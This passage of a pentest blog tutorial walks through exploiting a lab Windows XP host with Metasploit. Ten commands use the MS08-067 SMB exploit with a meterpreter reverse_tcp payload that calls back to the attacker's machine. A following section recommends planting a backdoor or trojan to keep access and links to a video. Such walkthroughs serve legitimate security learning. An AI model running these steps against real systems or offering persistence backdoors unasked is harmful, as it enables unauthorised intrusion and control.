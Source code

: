 1.  msfconsole (to fired it up)
2.  search smb (to find to exploit)
3.  use exploit/windows/smb/ms08_067_netapi
4.  show options (to see options)
5.  set rhost 192.168.56.101.
6.  search payload (to see payload to use)
7.  set payload windows/meterpreter/reverse_tcp
8.  show options
9.  set lhost 192.168.56.1 (attacking PC)
10.  exploit

### 4.2 Maintaining Access

This is possible because I turned the firewall off, what happens if we suddenly turn it on or the target patches the vulnerability (Even the latest revision of TinyXP with firewall of is not possible to exploit)? So we must insert a backdoor, trojan, virus, etc. The video will show everything from scanning to this process.

<div class="video-container"><iframe src="https://lbry.tv/$/embed/exploit-windows-xpsp3-and-persistence/c7e8a62e336a71f2bf10987af2b23907bac0637e" allowfullscreen=""></iframe></div>

## Mirror

*   [https://www.publish0x.com/0fajarpurnama0/having-a-taste-of-being-a-hacker-xlmlvp?a=4oeEw0Yb0B&tid=hicc](https://www.publish0x.com/0fajarpurnama0/having-a-taste-of-being-a-hacker-xlmlvp?a=4oeEw0Yb0B&tid=hicc)
*   [https://0fajarpurnama0.github.io/internet/2020/04/01/having-taste-being-hacker](https://0fajarpurnama0.github.io/internet/2020/04/01/having-taste-being-hacker)
*   [https://medium.com/@0fajarpurnama0/having-a-taste-of-being-a-hacker-29d9f4f06077](https://medium.com/@0fajarpurnama0/having-a-taste-of-being-a-hacker-29d9f4f06077)
*   [https://hicc.cs.kumamoto-u.ac.jp/~fajar/internet/2020/04/01/having-taste-being-hacker.html](https://hicc.cs.kumamoto-u.ac.jp/~fajar/internet/2020/04/01/having-taste-being-hacker.html)
*   [https://0fajarpurnama0.tumblr.com/post/614101280240091136/having-a-taste-of-being-a-hacker](https://0fajarpurnama0.tumblr.com/post/614101280240091136/having-a-taste-of-being-a-hacker)
*   [https://0darkking0.blogspot.com/2020/04/having-taste-of-being-hacker.html](https://0darkking0.blogspot.com/2020/04/having-taste-of-being-hacker.html)
*   [https://hive.blog/pentest/@fajar.purnama/having-a-taste-of-being-a-hacker?r=fajar.purnama](https://hive.blog/pentest/@fajar.purnama/having-a-taste-of-being-a-hacker?r=fajar.purnama)
*   [https://0fajarpurnama0.cloudaccess.host/index.php/uncategorised/22-having-a-taste-of-being-a-hacker](https://0fajarpurnama0.cloudaccess.host/index.php/uncategorised/22-having-a-taste-of-being-a-hacker)
*   [https://steemit.com/pentest/@fajar.purnama/having-a-taste-of-being-a-hacker?r=fajar.purnama](https://steemit.com/pentest/@fajar.purnama/having-a-taste-of-being-a-hacker?r=fajar.purnama)
*   [http://0fajarpurnama0.weebly.com/blog/having-a-taste-of-being-a-hacker](http://0fajarpurnama0.weebly.com/blog/having-a-taste-of-being-a-hacker)
*   [https://0fajarpurnama0.wixsite.com/0fajarpurnama0/post/having-a-taste-of-being-a-hacker](https://0fajarpurnama0.wixsite.com/0fajarpurnama0/post/having-a-taste-of-being-a-hacker)
*   [http://www.teiii.cn/having-a-taste-of-being-a-hacker](http://www.teiii.cn/having-a-taste-of-being-a-hacker)